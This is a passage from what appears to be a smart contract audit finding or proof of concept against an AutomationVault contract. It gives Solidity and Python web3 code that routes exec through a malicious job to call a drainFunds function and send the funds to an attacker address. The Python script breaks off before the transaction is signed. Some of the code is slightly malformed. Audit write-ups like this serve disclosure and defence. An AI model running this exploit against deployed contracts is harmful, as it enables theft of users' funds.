```solidity
    _approvedJobSelectors[relay][job].add(maliciousSelector);
}

```
3. As an approved relay caller, invoke the `exec` function with the address of the malicious contract as the job and the function selector pointing to the `drainFunds` function.
```solidity
// Function to execute the malicious function using the exec function of AutomationVault
function executeMaliciousFunction(address automationVault, address relayCaller, address maliciousContract) external {
    // Define ExecData for the malicious function execution
    IAutomationVault.ExecData[] memory execData = new IAutomationVault.ExecData[](1);
    execData[0] = IAutomationVault.ExecData({
        job: maliciousContract,
        jobData: abi.encodeWithSignature("drainFunds()") // Function call data for `drainFunds`
    });

    // Invoke the exec function
    IAutomationVault(automationVault).exec(relayCaller, execData, new IAutomationVault.FeeData );
}

```
4. Once the malicious function is executed, monitor the blockchain for transaction confirmation and check if the attack was successful (e.g., funds are drained to the attacker's account).
 

You can also Run the Attack by Following The below steps

```bash
pip install web3

```
and Run 
```python
from web3 import Web3
from web3.contract import Contract

# Connect to the Ethereum network (e.g., Infura mainnet or testnet)
w3 = Web3(Web3.HTTPProvider('https://infura.io/v3/YOUR_INFURA_PROJECT_ID'))

# Addresses and contract details
automation_vault_address = '0x...'  # Replace with the AutomationVault contract address
malicious_job_address = '0x...'     # Replace with the MaliciousJob contract address
token_address = '0x...'             # Replace with the token contract address
attacker_address = '0x...'          # Replace with the attacker's address
attacker_private_key = 'YOUR_PRIVATE_KEY'  # Replace with the attacker's private key

# Load contract ABI and create contract objects
automation_vault_abi = '[...]'  # Replace with the ABI of the AutomationVault contract
malicious_job_abi = '[...]'     # Replace with the ABI of the MaliciousJob contract

automation_vault_contract = w3.eth.contract(address=automation_vault_address, abi=automation_vault_abi)
malicious_job_contract = w3.eth.contract(address=malicious_job_address, abi=malicious_job_abi)

# Prepare the execution data for the malicious function call
job_data = malicious_job_contract.encodeABI(fn_name='drainFunds')

# Create ExecData tuple for the exec function
exec_data = [(malicious_job_address, job_data)]

# Estimate the gas for the transaction
gas = automation_vault_contract.functions.exec(attacker_address, exec_data, []).estimateGas()

# Create and sign the transaction
```